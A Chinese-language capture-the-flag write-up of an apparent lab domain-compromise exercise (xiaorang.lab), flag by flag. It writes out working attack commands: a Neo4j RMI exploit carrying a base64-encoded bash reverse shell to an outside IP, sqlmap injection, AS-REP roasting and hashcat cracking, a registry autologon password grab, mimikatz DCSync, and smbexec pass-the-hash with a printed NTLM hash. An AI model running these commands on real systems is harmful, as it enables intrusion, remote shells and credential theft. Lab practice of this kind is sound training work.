



# Flag1

还是先fscan扫一下，扫全端口，不然会漏掉一部分


发现了neo4j的网站，用payload打一梭子https://github.com/zwjjustdoit/CVE-2021-34371.jar)

```
java -jar ./rhino_gadget.jar rmi://39.98.121.218:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45My4yNDguMjIxLzIzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}" 
```



这次居然不用提权


提示了kerberos的认证过程

# Flag2

先用wget把fscan和stowaway下载下来吧


发现了内网网段172.22.6.36/16，是一个B段内网


还是用fscan扫C段先看看吧


```
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.6.12     is alive
(icmp) Target 172.22.6.25     is alive
(icmp) Target 172.22.6.36     is alive
(icmp) Target 172.22.6.38     is alive
[*] Icmp alive hosts len is: 4
172.22.6.25:445 open
172.22.6.12:445 open
172.22.6.25:139 open
172.22.6.12:139 open
172.22.6.25:135 open
172.22.6.12:135 open
172.22.6.38:80 open
172.22.6.38:22 open
172.22.6.36:22 open
172.22.6.12:88 open
172.22.6.36:7687 open
[*] alive ports len is: 11
start vulscan
[*] NetInfo:
[*]172.22.6.12
   [->]DC-PROGAME
   [->]172.22.6.12
[*] NetInfo:
[*]172.22.6.25
   [->]WIN2019
   [->]172.22.6.25
[*] NetBios: 172.22.6.25     XIAORANG\WIN2019               
[*] NetBios: 172.22.6.12     [+]DC DC-PROGAME.xiaorang.lab       Windows Server 2016 Datacenter 14393 
[*] 172.22.6.12  (Windows Server 2016 Datacenter 14393)
[*] WebTitle: http://172.22.6.38        code:200 len:1531   title:后台登录
[*] WebTitle: https://172.22.6.36:7687  code:400 len:50     title:None
已完成 11/11
[*] 扫描结束,耗时: 14.304078502s
```

发现了内网机器

```
172.22.6.12 域控DC-PROGAME.xiaorang.lab
172.22.6.25 XIAORANG\WIN2019 
172.22.6.38 内网其他机器，但是有web服务
```


是一个登录页面，burp设置socks代理抓包


尝试弱口令和sql注入


发现存在sql注入，直接联合注入即可，sqlmap跑一下


存在三张表


把oa_f1Agggg整张表dump下来，也不要放过其他两个表




发现oa_users这张表的邮箱和域用户邮箱很相似，可能是域内的一些用户名，保存下来

# Flag3&Flag4

目前还有域内机器和DC，拿刚才的用户名跑一下AS_REP Roasting

AS_REP Roasting是一种对用户账户进行离线爆破的方式，需要关闭预身份验证，而此选项又是默认开启的，所以有一定的限制，默认开启的预身份验证是会记录密码错误次数来防止爆破的，关闭预身份验证后，在进行AS_REQ之后的时候，KDC不会进行任何验证就将TGT和用该用户Hash加密的Login Session Key返回，由于AS_REP的数据包中Login Session Key的是由用户Hash进行加密的，因此，可以对获取到的用户Hash加密的Login Session Key进行离线爆破，得到对应用户的明文密码

对于域用户，如果设置了选项Do not require Kerberos preauthentication(不要求Kerberos预身份认证)，此时向域控制器的88端口发送AS-REQ请求，对收到的AS-REP内容重新组合，能够拼接成”Kerberos 5 AS-REP etype 23”(18200)的格式，接下来可以使用hashcat或是john对其破解，最终获得该用户的明文口令

```
python3 GetNPUsers.py  -dc-ip 172.22.6.12 -usersfile 1.txt  -format hashcat xiaorang.lab/
```


发现zhangxin这个账户可以尝试爆破

```
$krb5asrep$23$zhangxin@XIAORANG.LAB:2ae1d19a9fe23b36bd5daa18db1e1cbc$e6cc28774c9bb88fc66f49a90e3366a7eef55619469d51e49a5d1c8489f2f2b238c6ab3f7598d443fd3d2252ac210d64e04c6708586e00499db8037d594b32cc21e3c6b6d917e4f3da5d180c177b01b1e61d87de44a872f5a7d7890d98a90d617a19309f69b54c913e40c44b5c96c178daeaed7ea9c26fe16e480e7c7cb91c08466a2f06b1b1073d327c8d98d9bb8b92af7275050a3444ad22a46effef9c3e021f50443213c1e0a83f7bd50b54fc780251bf26b946d67ef1aed45fc17f987d1e8a83dadf505907bd3fd9c392b0f4936f0322401c89379c8ba7519e5cdfbf7e3917e48b8722f1a76e4be8e687
```

hashcat爆破一下

```
hashcat -m 18200 1.txt -a 0 ./rockyou.txt  --force
```


得到了密码

```
zhangxin::strawberry
```



rdp登上了172.22.6.25这台机器，用sharphound收集一下信息

```
SharpHound.exe -c all --OutputDirectory ./
```

查找到域控的最短路径


目前我们拿下的是zhangxin这个可以rdp登了win2019这台机器的用户


发现WIN2019这台机器对YUXUAN用户有HasSession，YUXUAN有administrator的SIDHistory，那拿下YUXUAN这个用户就可以拿下域控了，不过现在没有管理员权限，没办法盗取YUXUAN的token

但是wp说这样可以抓到密码

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```


这样抓到密码是有一个前提的，是需要开启自动登录，也就是AutoAdminLogon为1，才能抓到密码

```
yuxuan::Yuxuan7QbrgZ3L
```

用yuxuan这个账户重新登录一下WIN2019这台机器


SIDHistroy可以参考https://blog.csdn.net/qq_41874930/article/details/111612386

SIDHistory是一个为支持域迁移方案而设置的属性，当一个对象从一个域迁移到另一个域时，会在新域创建一个新的SID作为该对象的objectSid，在之前域中的SID会添加到该对象的sIDHistory属性中，此时该对象将保留在原来域的SID对应的访问权限


相当于这里YUXUAN就具有了administrator的权限，可以直接用dcsync来dump域内所有hash

```
mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"
```


拿到了administrator的hash，可以直接pth到域内所有机器去了

```
python3 smbexec.py -hashes :04d93ffd6f5f6e4490e0de23f240a5e9 xiaorang.lab/administrator@172.22.6.12 -codec gbk
```


```
python3 smbexec.py -hashes :04d93ffd6f5f6e4490e0de23f240a5e9 xiaorang.lab/administrator@172.22.6.25 -codec gbk
```


参考链接：

https://blog.csdn.net/qq_41874930/article/details/111612386

https://blog.csdn.net/uuzeray/article/details/141757283

https://fushuling.com/index.php/2023/08/31/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83%C2%B7time/
